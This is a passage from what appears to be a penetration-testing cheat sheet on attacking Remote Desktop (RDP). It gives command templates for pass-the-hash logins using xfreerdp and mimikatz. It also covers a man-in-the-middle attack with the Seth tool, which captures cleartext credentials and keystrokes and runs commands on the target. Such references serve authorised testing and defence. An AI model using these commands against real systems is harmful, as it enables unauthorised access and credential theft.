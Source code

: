 ### Pass-the-hash over RDP

The `xfreerdp` client on Linux and `mimikatz` with the built-in `mstsc.exe`
client on Windows can be used to authenticate using an account's `NTLM` hash
through `RDP`. The remote hosts must support the `Restricted Admin mode`
feature.

```
# Linux.
xfreerdp /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /pth:<HASH> /v:<HOSTNAME | IP>

# Windows.
# The Remote Desktop Connection (mstsc.exe) client will display the currently logged user information but the network connection will be established using the identity specified to mimikatz's sekurlsa::pth.  
sekurlsa::pth /domain:<. | DOMAIN_FQDN> /user:<USERNAME> /ntlm:<NT_HASH> /run:"mstsc.exe /restrictedadmin"
```

### Man-in-the-middle attack

`Seth` is a tool written in Python and Bash to MitM `RDP` connections that
attempts to downgrade the connection in order to extract clear text credentials.

`Seth` can be used regardless if `Network Level Authentication (NLA)` is
enabled or not on the targeted `RDP` host.

`Seth` will notably:
  - Spoof `ARP` replies to redirect traffic from the victim host to the
    attacker machine and then to the target RDP server.
  - Configure an `iptable` rule to reject `SYN` packet to prevent direct `RDP`
    authentication.
  - Clone the `SSL` certificate (only replacing the public key and signature)
  - Block traffic to port 88 to downgrade `Kerberos` authentication to `NTLM`.

Note that the user will be presented with a certificate error warning that must
be accepted before the clear text credentials are sent.

In case of a successful attack:

  - Clear text credentials of the user login in are obtained
  - A command can be executed on the targeted host
  - Victim keyboard inputs are retrieved

```
# Unless the RDP host is on the same subnet as the victim machine, the last IP address must be that of the gateway.
# The COMMAND is executed on the RDP host by simulating WIN+R
# The COMMAND should not contains special characters (powershell -enc <STRING> can be used)

seth.sh <INTERFACE> <ATTACKER_IP> <VICTIM_IP> <GATEWAY_IP | HOST_IP> [<COMMAND>]
```

### Session Hijacking
